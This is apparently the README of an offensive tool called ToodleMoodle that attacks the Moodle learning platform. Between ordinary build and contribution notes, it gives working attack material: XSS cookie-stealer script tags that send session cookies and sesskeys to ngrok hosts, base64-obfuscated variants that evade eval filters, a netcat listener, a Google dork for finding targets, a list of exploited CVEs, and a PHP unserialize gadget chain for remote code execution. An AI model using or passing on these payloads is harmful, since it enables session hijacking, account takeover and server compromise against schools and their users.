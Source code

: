 # ToodleMoodle

![ToodleMoodle](images/ReadMeMoodleImage.png?raw=true)

## Installation

TODO: Write installation instructions here

## Usage

Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:

``` html
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>
<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>
```

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()

The vulnerabilities we use are:

* Dashboard XSS CVE-2019-3847
* Assignment XSS CVE-2017-2578
* SQL Injection / Privilege escalation CVE-2017-2641
* RCE (must be teacher) CVE-2018-1133
* RCE (attacker needs permissions to create a quiz or at least be able to import questions)
CVE-2018-14630

https://packetstormsecurity.com/files/149426/Moodle-3.x-PHP-Unserialize-Remote-Code-Execution.html CVE-2018-14630

Features:

* Scan: the tool can detect version
* Exploit RCE 2018-1133 and CVE-2018-14630
* Exploit 2017-2641 SQL injection (via user pref)
* Add XSS to account dashboard, use clickjacker, using CVE-2019-3847 to hijack
session

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```
Use the  --release flag for an optimized production build.

### Docker image setup
```
bin/moodle-docker-compose up
```

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer

// Legacy format containing PHP serialisation.
            https://github.com/moodle/moodle/archive/v3.1.13.zip
            foreach ($data['#']['answer'] as $answerxml) {
                $ans = $format->import_answer($answerxml);
                $options = unserialize(stripslashes($ans->feedback['text']));
                // $payload = 
                // "O:15:\"\\core\\lock\\lock\":3:{s:6:\"\0*\0key\";O:23:\"\\core_availability\\tree\":1:{s:11:\"\0*\0children\";O:24:\"\\core\\dml\\recordset_walk\":2:{s:11:\"\0*\0callback\";s:6:\"system\";s:12:\"\0*\0recordset\";O:25:\"question_attempt_iterator\":2:{s:7:\"\0*\0quba\";O:26:\"question_usage_by_activity\":1:{s:19:\"\0*\0questionattempts\";a:1:{s:4:\"1337\";s:13:\"echo aawhoami\";}}s:8:\"\0*\0slots\";a:1:{i:0;i:1337;}}}}s:9:\"draggroup\";s:1:\"1\";s:8:\"infinite\";i:1;}";
                // $options = unserialize($payload);//unserialize(stripslashes($ans->feedback['text']));
                // echo $payload;
                
                // var_dump($options);
O:15:"\core\lock\lock":3:{s:6:"�*�key";O:23:"\core_availability\tree":1:{s:11:"�*�children";O:24:"\core\dml\recordset_walk":2:{s:11:"�*�callback";s:6:"system";s:12:"�*�recordset";O:25:"question_attempt_iterator":2:{s:7:"�*�quba";O:26:"question_usage_by_activity":1:{s:19:"�*�questionattempts";a:1:{s:4:"1337";s:13:"echo aawhoami";}}s:8:"�*�slots";a:1:{i:0;i:1337;}}}}s:9:"draggroup";s:1:"1";s:8:"infinite";i:1;}
